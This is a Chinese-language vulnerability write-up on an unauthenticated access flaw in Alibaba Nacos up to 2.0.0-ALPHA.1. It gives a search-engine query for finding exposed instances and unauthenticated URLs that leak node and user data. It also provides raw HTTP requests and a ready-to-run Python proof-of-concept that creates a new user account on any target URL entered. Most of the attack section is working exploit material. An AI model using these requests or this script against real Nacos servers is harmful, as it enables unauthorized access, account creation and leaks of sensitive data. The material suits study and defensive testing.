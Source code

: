 # Alibaba Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

```
Nacos <= 2.0.0-ALPHA.1
```

## 网络测绘

```
title="Nacos"
```

## 环境搭建

https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```



然后访问 http://xxx.xxx.xxx.xxx:8848/nacos 即可，默认账号密码 **nacos/nacos**

![](./images/202202102003931.png)



## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论



https://github.com/alibaba/nacos/issues/1105



![2](./images/202202102003894.png)

![3](./images/202202102003898.png)



这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问



![](./images/202202102004781.png)



这里的请求url简化为



http://xxx.xxx.xxx.xxx:8848/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=



退出用户后在前台访问这个 url



![](./images/202202102004013.png)



可以发现以及泄露了 **ip节点** 等数据



同样我们查看用户列表的请求并在前台访问



http://xxx.xxx.xxx.xxx:8848/nacos/v1/auth/users?pageNo=1&pageSize=9



![6](./images/202202102004595.png)

![7](./images/202202102004600.png)



这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息



我们尝试创建用户并抓包



![](./images/202202102004325.png)



返回下列创建成功



```plain
{"code":200,"message":"create user ok!","data":null}
```



同样的我们简化请求



```plain
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```



![9](./images/202202102004662.png)

![10](./images/202202102004665.png)



看到有文章说要加上**User-Agent请求头**



```plain
User-Agent: Nacos-Server
```



但是大量测试之后发现好像是无关紧要的，没有请求头同样可以创建用户

- 同样的原理也可以用于修改密码添加配置等

## 漏洞POC

```
# 添加用户
POST /nacos/v1/auth/users HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/
*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

username=aaaa&password=bbbb
```

```
# 查看用户
GET /nacos/v1/auth/users?pageNo=1&pageSize=100 HTTP/1.1
Host: 127.0.0.1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;
q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
```

- 注意下大部分企业的 nacos的url为 /v1/auth/users ，而不是  /nacos/v1/auth/users
- 可以按目标情况自行修改

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Nacos <= 2.0.0-ALPHA.1                                   \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    # vuln_url = target_url + "/nacos/v1/auth/users"
    vuln_url = target_url + "/v1/auth/users"
    headers = {
        "User-Agent": "Nacos-Server",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    number = random.randint(0,999)
    data = "username=peiqi{}&password=peiqi".format(str(number))
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/nacos/v1/auth/users \033[0m".format(target_url))
        if "create user ok!" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 成功创建账户 peiqi{} peiqi\033[0m".format(str(number)))
        else:
            print("\033[31m[x] 创建用户请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](./images/202202102004659.png)


